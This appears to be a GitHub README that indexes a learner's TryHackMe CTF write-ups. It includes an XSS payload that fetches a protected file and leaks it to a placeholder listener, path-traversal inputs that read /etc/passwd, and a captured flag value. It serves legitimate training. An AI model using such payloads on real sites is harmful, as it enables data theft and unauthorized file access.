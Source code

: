 # 🧠 CyberSec Writeups & Solutions by Achref Rahali

Welcome to my personal repository of cybersecurity challenges, cracking problems, and hacking labs that I’ve tackled and documented. This repo serves as a logbook of my progress through CTFs, TryHackMe rooms, and real-world scenarios to sharpen my offensive security skills.

---

## 🧠 Solved Challenges
### 📌 [CyberLens – TryHackMe](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)
A walkthrough of the CyberLens room on TryHackMe where I tackled:
- OSINT
- Steganography
- Network forensics
- Basic RE

> 📝 [Read full write-up on Medium](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)
[![Read on Medium](https://img.shields.io/badge/Read_on-Medium-black?logo=medium)](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)

📌 **Topics covered:**
- OSINT & Recon
- Steganography
- Network Forensics
- Reverse Engineering

📝 **Tools used:**
- Wireshark
- strings
- stegseek
- exiftool
- and more...

  🛡️ **Lessons Learned:**
- [x] Always enumerate all provided media and files — hidden messages are common in CTFs.
- [x] Metadata and file formats can reveal more than expected (e.g., EXIF, hidden ZIPs).
- [x] Don't skip packet analysis — the answer is often buried in plain sight within the pcap.
- [x] Automation tools like `stegseek` or `binwalk` can save massive time when exploring binary data.

---

### 📌 [The Sticker Shop – TryHackMe](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)
An XSS-based exploitation of a vulnerable feedback form to exfiltrate a protected flag from the webserver.

> 📝 [Read full write-up on Medium](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)  
[![Read on Medium](https://img.shields.io/badge/Read_on-Medium-black?logo=medium)](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)

📌 **Topics covered:**
- XSS (Cross-Site Scripting)
- Access Control Bypass
- Same-Origin Policy (SOP) Exploitation
- JavaScript Payload Crafting

🛠️ **Exploitation Steps:**
1. Recon with `nmap` and `gobuster` to discover exposed HTTP service and directories.
2. Identified XSS via the feedback form using a `<script>alert(1)</script>` test.
3. Injected payload to fetch `/flag.txt` and leak it to a remote listener.
4. Captured the flag using a Python HTTP server.
5. Decoded exfiltrated content: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`

🧪 **Payload Used:**
```html
<script>
  fetch('/flag.txt')
    .then(r => r.text())
    .then(data => {
      window.location = 'http://MY_IP:8081/receive?flag=' + encodeURIComponent(data);
    });
</script>
```

🛡️ **Lessons Learned:**

- [x] Input sanitization is critical.
- [x] Same-Origin Policy can be abused if proper authentication isn’t enforced.
- [x] Feedback forms are common entry points for reflected XSS.

---

### 📌 LoFi Room – TryHackMe

An LFI-based exploitation of a vulnerable `?page=` parameter to access sensitive files on the system and retrieve the flag.

📝 [Read full write-up on Medium](https://medium.com/@rahaliashraf732/tryhackme-lofi-room-writeup-exploiting-lfi-vulnerability-ca349aec9d17)  
[![Read on Medium](https://img.shields.io/badge/Read_on-Medium-black?logo=medium)](https://medium.com/@rahaliashraf732/tryhackme-lofi-room-writeup-exploiting-lfi-vulnerability-ca349aec9d17)

---

#### 📌 Topics covered:
- Local File Inclusion (LFI)
- Directory Traversal
- Web Enumeration
- Flag Extraction

---

#### 🛠️ Exploitation Steps:
- Ran `nmap` to identify open ports (SSH & HTTP).
- Used `gobuster` to enumerate hidden directories (no useful results).
- Identified dynamic file inclusion through `?page=chill.php`.
- Tested LFI with `?page=../../../../etc/passwd` → success.
- Retrieved the flag via `?page=../../../../flag.txt`.

---

#### 🧪 Payload Used:
-?page=../../../../etc/passwd
-?page=../../../../flag.txt

---

#### 🛡️ Lessons Learned:
- Always check URL parameters for possible LFI.
- Directory traversal is a simple yet powerful technique.
- LFI can expose critical system files and sensitive information if unvalidated.

---

## 🔜 Coming Soon

I’ll be adding more CTF rooms, reverse engineering challenges, and crackmes, such as:
- VulnHub boxes
- Hack The Box writeups
- Custom malware analysis tasks
- Password cracking scenarios

---

## 📚 Why This Repo?

This repo helps me:
- Track my learning in infosec
- Improve my documentation skills
- Share my knowledge with others starting out in ethical hacking

---

## ⚠️ Legal Notice

> This repository is strictly for educational purposes. All challenges and techniques are practiced on **legally authorized platforms** like TryHackMe, HTB, or offline VMs. Do not attempt to use these techniques on unauthorized systems.

---


